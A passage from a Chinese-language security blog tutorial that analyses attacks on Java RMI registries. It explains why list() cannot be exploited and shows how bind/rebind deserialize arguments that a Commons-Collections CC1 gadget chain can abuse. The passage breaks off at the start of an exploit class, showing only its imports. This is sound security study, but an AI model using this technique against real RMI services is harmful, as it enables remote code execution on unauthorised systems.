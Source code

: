 ```
 String[] s = Naming.list("rmi://127.0.0.1:1099");  
 System.out.println(s);  
 }  
}
```

运行的时候，会打印出如下信息

![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/RegistryList.png)

因为这里没有 `readObject()`，所以无法进行反序列化，这样我们的攻击面就太窄了。我们可以跳进 `RegistryImpl_Skel#dispatch` 看一下，list 对应的是 case1

![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/listCode.png)

只有 `writeObject()`，没有 `readObject()`

#### bind 或 rebind 的攻击

直接看 bind 方法和 rebind 方法的源码吧

case0 是 bind 方法的，case2 是 rebind 方法的。

![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/bindCode.png)![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/rebindCode.png)

这两个地方都是有反序列化的，进行反序列化的参数是参数名以及远程对象；这就和我们前面分析的通信原理过程结合起来了。

所以这个 bind 和 rebind 的服务端，就有概率可以作为反序列化攻击的一个入口类，如果服务端这里存在 CC 链相关的组件漏洞，那么就可以反序列化攻击，这里为了凸显的话，我们先把 CC 链导进来，这里我们就以 CC1 为例。

XML

```
<dependencies>  
 <!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->  
 	<dependency>  
 	<groupId>commons-collections</groupId>  
	 <artifactId>commons-collections</artifactId>  
	 <version>3.2.1</version>  
 </dependency></dependencies>
```

逆向分析一下这条链子，原本 CC1 的最后面是 `InvocationHandler.readObject()`，现在我们要让客户端的 `bind()` 方法执行 `readObject()`。

回过头去看前面的，在客户端收到信息的时候是一个 Proxy 对象，让 Proxy 对象被执行的时候去调 `readObject()` 方法，可以先点进去 Proxy 对象看一看，其中有一个非常引人注目的方法 ———— `newProxyInstance()`

![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/ProxyClass.png)

上面的是传参，下面的是很明显的存在反序列化漏洞的地方，所以我们把 CC1 的那串恶意类拿出来就可以了，让 Proxy 执行 `newProxyInstance()` 即可，EXP 如下

JAVA

```
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.rmi.Remote;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
import java.util.HashMap;  
import java.util.Map;  
```